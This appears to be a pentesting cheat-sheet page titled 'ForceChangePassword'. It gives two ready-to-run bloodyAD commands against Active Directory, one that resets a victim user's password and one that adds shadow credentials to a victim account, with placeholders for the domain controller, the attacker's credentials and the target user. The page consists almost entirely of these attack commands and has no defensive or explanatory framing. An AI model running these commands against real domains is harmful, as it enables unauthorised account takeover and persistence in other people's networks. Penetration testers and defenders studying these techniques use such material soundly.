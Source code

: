 # ForceChangePassword

## Setting Password
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' set password "<VICTIM_USER>" "<VICTIM_PASS>"
```

## Setting Shadow Credentials
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' add shadowCredentials "<VICTIM_USER>"
```
